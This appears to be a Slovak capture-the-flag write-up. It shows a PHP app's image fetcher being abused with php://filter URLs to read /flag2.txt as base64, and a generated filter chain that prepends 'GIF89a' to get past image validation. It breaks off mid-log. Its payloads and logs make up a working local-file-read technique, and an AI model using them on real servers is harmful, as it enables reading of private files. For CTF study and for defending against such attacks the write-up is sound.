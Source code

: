 ```log
hostedFilename = temp/8f880017c7773f16e2b41a05ea1d9530.gif
return = <img src=" . 'uploads/' . temp/8f880017c7773f16e2b41a05ea1d9530.gif . ">;
```

Tu to dokonca aj validovalo... ešte otestujem php://filter

```log
Processing content: 
===========================
<img src="php://filter/read=convert.base64-encode/resource=/flag2.txt">
===========================
matches[2] = php://filter/read=convert.base64-encode/resource=/flag2.txt
downloadAndStore started
imageUrl = php://filter/read=convert.base64-encode/resource=/flag2.txt
Downloading image from php://filter/read=convert.base64-encode/resource=/flag2.txt
imageData = U0stQ0VSVHtpX2wwdjNfZjFsdDNyNV80bmRfNTBfZDAzc19waHB9
Image size: 52 bytes
imageInfo = 
Invalid image format
Error downloading image: Invalid image format
return <img src="php://filter/read=convert.base64-encode/resource=/flag2.txt">
```

Hm, toto vyzerá nádejde a po dopyte chatgpt či dokážem do valídne vyzerajúceho GIF infiltrovať obsah vlajky som dostal odkaz na tento git repozitár https://github.com/synacktiv/php_filter_chain_generator

Zadal som príkaz `python php_filter_chain_generator.py --chain "GIF89a"` a vygenerovalo mi toto

> php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp

php://temp zmením na /flag2.txt a vyskúšam lokálne (na lokálne som medzičasom vymenil vlajku za reálne, ale PoC sedí)

Log mi dal toto

```log
Processing content: 
===========================
```